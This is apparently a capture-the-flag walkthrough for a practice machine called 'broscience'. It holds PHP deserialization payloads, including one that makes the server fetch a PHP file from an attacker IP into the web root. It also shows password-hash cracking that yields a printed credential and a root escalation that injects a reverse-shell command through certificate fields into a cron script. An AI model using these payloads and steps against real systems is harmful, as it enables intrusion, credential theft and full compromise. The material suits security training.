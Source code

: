 ```php
    }
}
```

### Arbitrary write with `unserialize` and `__wakeup()`
Payload example: `O:15:"AvatarInterface":2:{s:3:"tmp";s:11:"/etc/passwd";s:7:"imgPath";s:13:"/tmp/ciao.txt";}`

### file_get_contents() can also make external calls
1. Set: `O:15:"AvatarInterface":2:{s:3:"tmp";s:31:"http://10.10.16.51:8000/AAA.php";s:7:"imgPath";s:21:"/var/www/html/AAA.php";}`
2. Search `http://broscience.htb/AAA.php`

### Login in in PostgreSQL
`psql -h localhost -p 5432 -d broscience -U dbuser`

### Dump all users and crack it
`john -form=dynamic='md5($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`, found `bill:iluvhorsesandgym`

### Bill used the same password, user.txt

---

### pspy64
```
2023/03/29 09:30:01 CMD: UID=0     PID=25397  | /usr/sbin/CRON -f 
2023/03/29 09:30:01 CMD: UID=0     PID=25398  | /bin/sh -c /root/webappreset.sh 
2023/03/29 09:30:01 CMD: UID=0     PID=25399  | /bin/sh -c /root/cron.sh 
2023/03/29 09:30:01 CMD: UID=0     PID=25400  | /bin/bash /root/webappreset.sh 
2023/03/29 09:30:01 CMD: UID=0     PID=25401  | /bin/sh -c /root/dbreset.sh 
2023/03/29 09:30:01 CMD: UID=0     PID=25402  | /bin/bash /root/cron.sh 
2023/03/29 09:30:01 CMD: UID=0     PID=25403  | /bin/bash /root/dbreset.sh 
2023/03/29 09:30:01 CMD: UID=0     PID=25405  | /usr/bin/cp -R /root/webapp /var/www/html 
2023/03/29 09:30:01 CMD: UID=0     PID=25404  | 
2023/03/29 09:30:01 CMD: UID=0     PID=25406  | timeout 10 /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt 
2023/03/29 09:30:01 CMD: UID=0     PID=25407  | /bin/bash /root/webappreset.sh 
2023/03/29 09:30:01 CMD: UID=0     PID=25408  | /bin/bash /root/cron.sh 
2023/03/29 09:30:01 CMD: UID=0     PID=25409  | /bin/bash /root/cron.sh
```

### `timeout 10 /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt ` run every 2 minutes
1. Create a revshell in `/dev/shm/rev.sh`
2. Generate an expired certificare: `faketime 'last friday 5 pm' /bin/bash -c 'openssl req -x509 -newkey rsa:4096 -keyout temp.key -out broscience.crt -sha256 -days 1 -nodes'`
3. Sets all fields to `/bin/bash /dev/shm/rev.sh`
4. After 2 minutes, among all the instructions, root will execute:
```2023/03/29 10:04:02 CMD: UID=0     PID=25887  | /bin/bash -c mv /tmp/temp.crt /home/bill/Certs/`/bin/bash /dev/shm/rev.sh`.crt```

### root.txt